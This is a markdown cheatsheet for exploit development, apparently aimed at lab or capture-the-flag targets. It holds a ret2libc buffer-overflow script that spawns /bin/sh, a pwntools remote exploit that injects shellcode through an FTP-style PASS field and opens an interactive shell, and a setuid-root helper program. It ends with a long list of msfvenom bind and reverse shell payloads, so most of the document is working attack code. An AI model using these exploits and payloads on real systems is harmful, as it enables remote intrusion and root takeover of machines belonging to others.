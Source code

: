 # Cheatsheet

## Exploit Development

###

Hexdump (python format)
```
hexdump -v -e '"\\""x" 1/1 "%02x" ""' example.exe
```

### Print hex encoded string in text
```
printf $(cat file.txt | tr -d '\n')
```

### Cross compile with - mingw32
```
i586-mingw32msvc-gcc a.c
wine a.exe
```
```
export file=shell
i686-w64-mingw32-gcc -c -O3 -march=i686 $file.c
i686-w64-mingw32-gcc $file.o -o $file.exe -O3 -march=i686 -Wl,-lws2_32
/usr/i686-w64-mingw32/bin/strip $file.exe
```

### Passing binary data as arguments
```
command $(python -c 'print ...')
```

### Passing binary data as standard input
```
python -c 'print ...' | command
```

### Use file as input and then read from standard input
```
cat file - | command
```
```
python -c 'print ...' | cat file - | command    
```

### Printing shell code
```
(Bash) echo -e '\x31\xc0\x50\x68\x2f...'
(Python) python -c 'print "\x31\xc0\x50\x68\x2f..."'
(Perl) perl -e 'print "\x31\xc0\x50\x68\x2f..."'
```

## ret2libc

- Find libc address: ​`ldd /usr/local/bin/backup`
- Find libc `system` function: ​`readelf -s /lib32/libc.so.6 | grep system`
- Find libc `exit` function: ​`readelf -s /lib32/libc.so.6 | grep exit`
- Find libc `/bin/sh` reference: ​`strings -a -t x /lib32/libc.so.6 | grep /bin/sh`


```
import struct, subprocess

libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b

payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)

attempts = 0

while True:
  attempts += 1
  print "Attempts: " + attempts
  subprocess.call(["/usr/local/bin/vulnerable-binary", "arg1", "arg2", payload])
```

## Network attack

```
from pwn import *

shellcode =
"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xc
d\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x7
3\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload = "A"*28 + p32(0xffffd630) + shellcode
r = remote('10.10.10.34', 7411)
print r.recv(1024)

r.sendline('USER admin')
print r.recv(1024)

r.sendline('PASS ' + payload)
r.interactive()
```

## Simple SUID Binary

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
  setuid(0);
  system("id");
  return 0;
}

```

## Msfvenum

### Payloads
```
cmd/unix/bind_awk
cmd/unix/bind_busybox_telnetd
cmd/unix/bind_inetd
cmd/unix/bind_lua
cmd/unix/bind_netcat
cmd/unix/bind_netcat_gaping
cmd/unix/bind_netcat_gaping_ipv6
cmd/unix/bind_nodejs
cmd/unix/bind_perl
cmd/unix/bind_perl_ipv6
cmd/unix/bind_r
cmd/unix/bind_ruby
cmd/unix/bind_ruby_ipv6
cmd/unix/bind_socat_udp
cmd/unix/bind_stub
cmd/unix/bind_zsh
cmd/unix/generic
cmd/unix/reverse
cmd/unix/reverse_awk
cmd/unix/reverse_bash
cmd/unix/reverse_bash_telnet_ssl
cmd/unix/reverse_ksh
cmd/unix/reverse_lua
cmd/unix/reverse_ncat_ssl
cmd/unix/reverse_netcat
cmd/unix/reverse_netcat_gaping
cmd/unix/reverse_nodejs
cmd/unix/reverse_openssl
cmd/unix/reverse_perl
cmd/unix/reverse_perl_ssl
cmd/unix/reverse_php_ssl
cmd/unix/reverse_python
cmd/unix/reverse_python_ssl
cmd/unix/reverse_r
cmd/unix/reverse_ruby
cmd/unix/reverse_ruby_ssl
cmd/unix/reverse_socat_udp
cmd/unix/reverse_ssl_double_telnet
cmd/unix/reverse_stub
cmd/unix/reverse_zsh
cmd/windows/adduser
cmd/windows/generic
cmd/windows/powershell_bind_tcp
cmd/windows/powershell_reverse_tcp
cmd/windows/reverse_powershell
firefox/exec
firefox/shell_bind_tcp
firefox/shell_reverse_tcp
generic/shell_bind_tcp
generic/shell_reverse_tcp
java/shell/bind_tcp
java/shell/reverse_tcp
java/shell_reverse_tcp
linux/x64/exec
linux/x64/shell/bind_tcp
linux/x64/shell/reverse_tcp
linux/x64/shell_bind_tcp
linux/x64/shell_reverse_tcp
linux/x86/adduser
linux/x86/chmod
linux/x86/exec
linux/x86/shell/bind_tcp
linux/x86/shell/reverse_tcp
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
multi/meterpreter/reverse_http
multi/meterpreter/reverse_https
nodejs/shell_bind_tcp
nodejs/shell_reverse_tcp
osx/armle/shell/bind_tcp
osx/armle/shell/reverse_tcp
osx/armle/shell_bind_tcp
osx/armle/shell_reverse_tcp
osx/ppc/shell/bind_tcp
osx/ppc/shell/reverse_tcp
osx/ppc/shell_bind_tcp
osx/ppc/shell_reverse_tcp
osx/x64/exec
osx/x64/shell_bind_tcp
osx/x64/shell_reverse_tcp
osx/x86/exec
osx/x86/shell_bind_tcp
osx/x86/shell_reverse_tcp
php/bind_php
php/download_exec
php/exec
php/reverse_perl
php/reverse_php
php/shell_findsock
python/shell_bind_tcp
python/shell_reverse_tcp
r/shell_bind_tcp
r/shell_reverse_tcp
ruby/shell_bind_tcp
ruby/shell_reverse_tcp
windows/adduser
windows/dllinject/bind_tcp
windows/dllinject/reverse_tcp
windows/download_exec
windows/exec
windows/powershell_bind_tcp
windows/powershell_reverse_tcp
windows/shell/bind_tcp
windows/shell/reverse_tcp
windows/shell_bind_tcp
windows/shell_reverse_tcp
windows/upexec/bind_tcp
windows/upexec/reverse_tcp
windows/x64/exec
windows/x64/powershell_bind_tcp
windows/x64/powershell_reverse_tcp
windows/x64/shell/bind_tcp
windows/x64/shell/reverse_tcp
windows/x64/shell_bind_tcp
windows/x64/shell_reverse_tcp
```

